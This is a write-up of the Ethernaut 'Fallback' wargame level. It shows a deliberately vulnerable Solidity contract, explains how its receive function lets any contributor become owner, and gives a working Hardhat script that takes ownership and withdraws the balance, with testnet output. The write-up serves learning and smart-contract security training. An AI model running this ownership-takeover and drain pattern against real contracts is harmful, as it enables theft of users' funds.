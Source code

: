 ```yaml
---
title: Ethernaut #01 Fallback
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallback challenge writeup
---
```


## Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

    you claim ownership of the contract
    you reduce its balance to 0

  Things that might help

    How to send ether when interacting with an ABI
    How to send ether outside of the ABI
    Converting to and from wei/ether units (see help() command)
    Fallback methods


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Background

The `fallback` function is a function that is called when the function identifier does not match any of the contract functions or if a function call is invoked without any data (hence no function identifier is provided). Since Solidity 0.6.0 a the function `receive` was introduced. `receive` works the same way as fallback but is called when the invocation has a value (funds).

### Attack

Solving this is pretty straight forward. The whole challenge just seems to be around understanding how to invoke the `fallback` functionality (more specifically the `receive` functionality).

* In order to call the `withdraw` function one needs to be the owner.
* If the `fallback` function is called with some value and the `msg.sender` already has contributed some funds, the owner is changed to the `msg.sender`. So the 
* One can call `contribute` with less than `0.001 ETH` and place some contribution.

So the attack would look something like this

* call `contribute` with less than `0.001 ETH`
* call `fallback` with some value
* call `withdraw`

#### fallback-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallback-solve.js --network rinkeby
Level address   : 0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46
Contract Owner  : 0x9CB391dbcD447E645D6Cb55dE6ca23164130D008
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
